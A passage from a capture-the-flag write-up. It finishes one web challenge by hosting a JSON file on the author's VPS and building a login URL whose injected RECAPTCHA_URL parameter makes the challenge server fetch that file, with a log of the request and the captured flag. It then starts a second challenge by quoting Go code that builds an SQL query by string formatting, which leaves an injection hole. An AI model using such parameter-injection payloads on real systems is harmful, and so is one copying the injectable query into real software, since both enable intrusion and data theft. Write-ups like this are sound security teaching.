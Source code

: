 In order to make my file accessible, I create an HTTP Server using python. I do this so that you can go to the URL of my VPS and access the json file.

```
root@natem135:~/public# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...                           -
```

Here is my finished payload.

```
http://bfm.ny.ctf.so/login.php?password=&CORRECT_PASSWORD&RECAPTCHA_URL=http://natem135.xyz:8000/payload.json?&g-recaptcha-response=dummy
```

I enter the URL in my browser and I can see on my VPS that a request was recieved from the challenge server:

```
root@natem135:~/public# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...                           -
104.236.23.113 - - [20/Dec/2020 01:24:14] "GET /payload.json?dummy HTTP/1.0" 200
```

And I have the flag!

```
we{f3243131-45e1-4d82-9dfb-586760275ac6@0bvious1y_n0t_a_brutef0rc3_cha11}
```

## Hall of Fame - 22 Solves

> We made a Slack bot (@hof) to remember our past winners. Hope no one hacks it cuz we are running it on a really important database. 

On the Slack server for the challenge, we are given access to a bot. When typing the help command to see what we have access to, this is what we see:

![helpcommand](https://i.imgur.com/TDjDHY9.png)

The only command that takes in userinput is ``rank``, so that's what we will be exploiting. It takes in a team_name as the parameter. Looking at the given database file, we can see some examples of team names as well as where the flag is located ( ``Flag`` in ``Flags`` at index ``1``.)

Looking at the source code, we can see the method that queries the database with our userinput.

```
// rank <team_name>
func rankHandler(_ slacker.BotContext, request slacker.Request, response slacker.ResponseWriter) {
	teamName := request.Param("team_name")
	var r Rankings
	// query database
	_, _ = db.
		Where(fmt.Sprintf("team_name = '%s'", teamName)).
		Get(&r)
	// send response
	response.Reply(fmt.Sprintf("%d - %s", r.Rank, r.TeamName))
}
```
